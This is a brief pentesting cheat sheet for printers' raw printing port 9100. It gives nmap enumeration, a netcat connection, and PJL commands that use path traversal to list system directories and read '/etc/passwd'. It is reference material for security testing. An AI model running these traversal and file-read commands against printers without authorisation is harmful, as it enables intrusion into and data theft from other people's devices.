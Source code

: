 ```yaml
---
title: Raw Printing Pentesting
description: PLJ (Printer Job Languages) is a method for switching printer languages. A default port is 9100.
tags:
    - Printer
refs:
    - https://developers.hp.com/system/files/PJL_Technical_Reference_Manual.pdf
    - https://book.hacktricks.xyz/network-services-pentesting/9100-pjl
date: 2023-07-19
draft: false
---
```


## Enumeration

```sh
nmap --script pjl-ready-message -p 9100 <target-ip>
```

<br />

## Connect

```bash
nc <target-ip> 9100
```

<br />

## Commands

```bash
# See printer information
@PJL INFO STATUS
@PJL INFO ID
@PJL INFO PRODINFO

# See directories in the system
@PJL FSDIRLIST NAME="0:" ENTRY=1
@PJL FSDIRLIST NAME="0:/../" ENTRY=1
@PJL FSDIRLIST NAME="0:/../etc/" ENTRY=1
@PJL FSDIRLIST NAME="0:/../home/" ENTRY=1

# See contents of a file
@PJL FSUPLOAD NAME="0:/../etc/passwd" ENTRY=1
```